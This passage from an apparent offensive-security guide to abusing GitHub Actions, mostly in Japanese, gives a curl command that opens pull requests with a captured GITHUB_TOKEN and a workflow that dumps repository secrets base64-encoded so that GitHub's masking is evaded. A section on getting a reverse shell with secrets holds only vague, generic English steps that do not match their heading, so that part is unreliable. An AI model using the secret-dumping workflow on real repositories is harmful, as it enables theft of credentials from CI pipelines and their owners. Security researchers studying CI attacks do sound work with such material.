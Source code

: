```bash
curl -X POST \
-H "Accept: application/vnd.github.v3+json" \
--header "authorization: Bearer $GITHUB_TOKEN" \
--header 'content-type: application/json' \
https://api.github.com/repos/<org_name>/<repo_name>/pulls \
-d '{"head":"<branch_name>","base":"master", "title":"title"}'
```
{% hint style="danger" %}
複数の場合において、Github Actionsの環境変数やシークレット内に**Githubユーザートークンを見つけることができる**ことに注意してください。これらのトークンは、リポジトリや組織に対してより多くの特権を与える可能性があります。
{% endhint %}

#### Github Actionsの出力でシークレットをリストアップする
```yaml
name: list_env
on:
workflow_dispatch: # Launch manually
pull_request: #Run it when a PR is created to a branch
branches:
- '**'
push: # Run it when a push is made to a branch
branches:
- '**'
jobs:
List_env:
runs-on: ubuntu-latest
steps:
- name: List Env
# Need to base64 encode or github will change the secret value for "***"
run: sh -c 'env | grep "secret_" | base64 -w0'
env:
secret_myql_pass: ${{secrets.MYSQL_PASSWORD}}
secret_postgress_pass: ${{secrets.POSTGRESS_PASSWORDyaml}}
```
#### シークレットを使用してリバースシェルを取得する

To get a reverse shell using secrets, follow these steps:

1. Identify the target system and gather information about it, such as the IP address and port number.
2. Generate a payload for the reverse shell. This payload will be used to establish a connection back to your machine.
3. Encrypt the payload using a secret key or password. This will help ensure that only authorized individuals can decrypt and execute the payload.
4. Transfer the encrypted payload to the target system. This can be done using various methods, such as uploading it to a compromised website or sending it via email.
5. On the target system, decrypt the payload using the secret key or password.
6. Execute the decrypted payload, which will establish a reverse shell connection back to your machine.
7. Once the reverse shell connection is established, you will have remote access to the target system's command line interface.
